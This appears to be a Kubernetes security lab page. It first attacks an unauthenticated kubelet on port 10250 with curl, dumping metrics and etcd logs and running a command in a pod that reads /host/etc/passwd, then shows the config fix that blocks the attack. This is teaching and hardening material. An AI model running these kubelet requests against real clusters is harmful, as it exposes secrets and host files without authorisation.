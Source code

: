 # Kubelet

## Attack

Before fixing the kubelet we will try to get sensitive data via the kubelet.

### Preparations

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# store the external IP of the worker node
export IP=$(gcloud compute instances list --filter="name=kubernetes-security" --format json | jq '.[].networkInterfaces[].accessConfigs[].natIP' | tr -d \")
```

### Getting sensitive data from the kubelet

```bash
# getting metrics from the kubelet
curl -k https://$IP:10250/metrics

# getting log infos from the kubelet
curl -k https://$IP:10250/logs/pods/ | grep etcd

# getting logs from etcd eg `curl -k https://$IP:10250/logs/pods/kube-system_etcd-kubernetes-security_87a0e13f2b523002a1f9bd2decbc296d/etcd/0.log`
curl -k https://$IP:10250/logs/pods/<ETCD_POD>/etcd/0.log

# getting infos from the host
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```

## Avoiding the Attack

### SSH into the VM

```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### vi the kubelet config

``` bash
vi /var/lib/kubelet/config.yaml
```

### Fix Authentication

```yaml
...
authentication:
  anonymous:
    enabled: true # <= change to false
...    
```

### Fix Authorization

```yaml
...
authorization:
  mode: AlwaysAllow # <= change to Webhook
...  
```

### Restart the kubelet and check the status

```bash
systemctl restart kubelet

systemctl status kubelet
```

### Verify kubelet is now safe again

```bash
# exit the VM - for being in the Google Cloud Shell again
exit

# try to attack the kublet again - now you will get an `Unauthorized` response
curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"
```
